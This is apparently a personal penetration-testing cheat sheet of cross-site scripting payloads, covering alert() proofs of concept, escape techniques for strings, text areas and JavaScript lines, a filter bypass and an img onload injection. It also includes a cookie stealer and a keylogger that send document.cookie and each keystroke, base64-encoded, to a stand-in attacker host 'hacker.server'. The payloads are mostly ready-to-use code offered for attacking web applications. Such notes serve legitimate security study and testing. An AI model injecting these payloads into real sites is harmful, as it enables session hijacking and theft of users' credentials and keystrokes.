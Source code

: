 ```yaml
---
tags:
  - Penetration-Testing
  - Web-Hacking
  - XSS
---
```

## Proof of Concept - Alert Script
Causes an alert box to pop up with a text string
```javascript
<script>alert('XSS');</script>
```

## Session/Cookie Stealer
Captures target's cookie, encodes via base64 to ensure transmission, then posts it to web server under attacker control.
```javascript
<script>fetch('http://hacker.server/steal?cookie=' + btoa(document.cookie));</script>
```

## Key Logger
```javascript
<script>document.onkeypress = function(e) { fetch('http://hacker.server/log?key=' + btoa(e.key) );}</script>
```

## String Escape
**If application is treating user input as a string, need to add escape characters to close the string before executing XSS payload**

![[Pasted image 20240903122234.png]]
```javascript
"><script>alert('XSS');</script>
```

## Text Area Escape
**If application is putting user input into a designated text or other display area, need to escape area, then add XSS payload**

![[Pasted image 20240903122857.png]]
![[Pasted image 20240903122916.png]]

```javascript
</textarea><script>alert('XSS');</script>
```

## Javascript Code Line Escape
**If the application is processing user input as code, need to end current code structure, inject XSS payload, and comment out remaining code in line**
![[Pasted image 20240903123906.png]]

```javascript
';alert('XSS');//
```
- ' closes the field specifying the name
- ; signifies the end of the current command
- // at the end makes anything after a comment in the current line

![[Pasted image 20240903124401.png]]

## Bypassing Content Filtering
**If application is stripping "script" from payload (likely due to allow/deny listing), may be able to bypass using altered payload**
- Will likely require T&E
```javascript
<sscriptcript>alert('XSS');</sscriptcript>
```

![[Pasted image 20240903125440.png]]

## Onload
**If application is processing image uploads using the IMG tag, we can utilizing an additional attribute of the IMG tag: the onload event**
- Onload event executes code once the image specified in the src attribute has loaded.

```javascript
/images/cat.jpg" onload="alert('XSS');
```

![[Pasted image 20240903142603.png]]

